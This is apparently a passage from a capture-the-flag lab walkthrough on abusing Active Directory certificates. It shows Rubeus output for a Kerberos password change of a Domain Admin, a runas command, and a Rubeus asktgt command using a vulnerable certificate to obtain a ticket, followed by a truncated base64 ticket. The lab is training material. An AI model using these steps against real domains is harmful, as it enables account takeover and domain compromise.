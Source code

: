 ```shell-session
        [*] Building AP-REQ for the MS Kpassword request
        [*] Building Authenticator with encryption key type: aes256_cts_hmac_sha1
        [*] base64(session subkey): UP+L2OgmJ281TkkXYNKR0ahLJni1fIk/XMBFwwNTP7Q=
        [*] Building the KRV-PRIV structure
        [+] Password change success!
```

You can now authenticate as this user to the Domain Controller and recover the final flag. Well done! You have now compromised DA! As an added bonus, let's look at the `runas` command, which we can use to authenticate as another user in the command prompt. We can use the following command in cmd to authenticate as the now compromised DA user:

`runas /user:lunar.eruca.com\<username of DA> cmd.exe   `

You will be prompted to provide the password for the associated account. If correct, `runas` will spawn a command prompt window for you as the specified user, which you can now use for administrative duties.  

Answer the questions below

```
C:\Users\thm>cd C:\THMTools\

C:\THMTools>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\THMTools

01/20/2022  03:35 PM    <DIR>          .
01/20/2022  03:35 PM    <DIR>          ..
10/22/2021  11:01 AM           417,280 Rubeus.exe
               1 File(s)        417,280 bytes
               2 Dir(s)  51,866,243,072 bytes free

C:\THMTools>.\Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:C:\Users\thm\Desktop\vulncert.pfx /password:Password1@ /outfile:svc.gitlab.kirbi /domain:lunar.eruca.com /dc:10.10.221.143

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
[*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
      MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
      BJYPsuWDafrAyIY0Rcux/m9GMthjfDDY4seeaNYu92HXisjJgYk+urTb8F9wt04dLeojYjUn64+b8vet
      JSAJIqHYqZXpkrpidsLmc4GMvKKlnETYE6mJGlcd7aiF9RjWM8Ft9g3Aw48zTCtChVlR98VdkYRGU8OV
      BQyVzFRofONc+nw0iBrQDAL+2j2epiq7mKxE81GlP72YbzPycKH3ltHbokIkh21HuZIKX/fThXnPl92K
      8IpNnHgGJnnFe3bP4juhV/L5uDBjjh7Yv6UAL1W62oA8D8jyS0Wgu+J85UClUBhrOfJ0IhnhzGeV3XFi
      /hSqDIzC4u1riwIPNz20l46NomOpXyu0kbSSGlQq7nzKi8+37CvcKTT3YwaHSgpycll6gxtE+5x+5w5K
      FbgeA6ea2yJ3L8wSt+IRZE2g92oXxc+KUGFSKgcE+5tuFcXq1fyHxbjo+MePLu2Q4gz61HjbSq65bVRW
      c0rLS2TCDNlXDJpcaoitRBSH3RDcA/jieulJHUATfHm0bbXCO+7pH0RgVMAKGiBiHtBPzXnrzJv/AfeX
      4CmyYwd5qIrJOMvj/qBnR9I2nvHXLakVDPYgNYfp+zcNlzxwfwXgYQOSzehh+hHL7uBvXLBTjugnxkh2
```